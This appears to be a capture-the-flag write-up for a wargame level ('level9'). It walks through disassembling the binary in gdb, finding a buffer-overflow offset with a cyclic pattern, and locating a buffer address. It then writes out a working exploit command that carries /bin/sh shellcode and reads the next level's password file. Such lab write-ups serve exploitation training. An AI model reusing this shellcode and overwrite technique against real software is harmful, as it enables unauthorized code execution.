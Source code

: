 # Level9

## Steps

### 1. Disassemble the Main Function

Use `gdb` to disassemble the `main` function:
```sh
gdb level9
(gdb) disas main
```
This gives you the assembly code of the `main` function.

### 2. Convert Assembly to C++ Code

Convert the assembly code to C++ code using an online tool like [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter). The converted C++ code return the joined source.cpp. 

### 3. Generate a Pattern

Generate a unique pattern to find the offset using the [Wiremask pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/):
```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
When the program crashes, use:
```sh
(gdb) info register
```
to find the value of `eip` and calculate the offset with the Wiremask offset calculator.

### 4. Determine Buffer Start Address

Set a breakpoint and run the program with a simple input:
```sh
(gdb) b *0x0804867c
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Examine the memory to find the buffer's start address:
```sh
(gdb) x/64x $eax
```
Note the start address (e.g., `0x804a00c`).

### 5. Craft the Exploit

Create the exploit payload using the shellcode and padding:
```sh
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
- `"\x10\xa0\x04\x08"`: Address of the buffer plus 4 bytes (`0x804a010`).
- Shellcode: `"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`.
- Padding: `"A" * 76`.
- `"\x0c\xa0\x04\x08"`: Start address of the buffer in little-endian (`0x804a00c`).

### 6. Run the Exploit

Run the crafted payload to execute the shellcode with the required privileges and then `cat /home/user/bonus0/.pass` to get the flag.